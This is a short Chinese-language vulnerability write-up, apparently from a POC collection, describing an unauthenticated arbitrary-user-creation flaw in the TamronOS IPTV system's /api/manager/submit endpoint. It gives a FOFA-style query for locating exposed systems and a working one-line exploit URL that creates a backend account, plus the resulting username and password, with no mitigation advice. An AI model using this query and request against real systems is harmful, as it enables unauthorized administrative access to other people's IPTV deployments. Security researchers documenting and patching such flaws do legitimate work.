


# TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

<a-checkbox checked>TamronOS IPTV系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TamronOS-IPTV系统"</a-checkbox></br>

## 漏洞复现

登录页面如下


漏洞POC为

```plain
/api/manager/submit?group=1&username=test&password=123456
```



```plain
user: test
pass: 123456
```

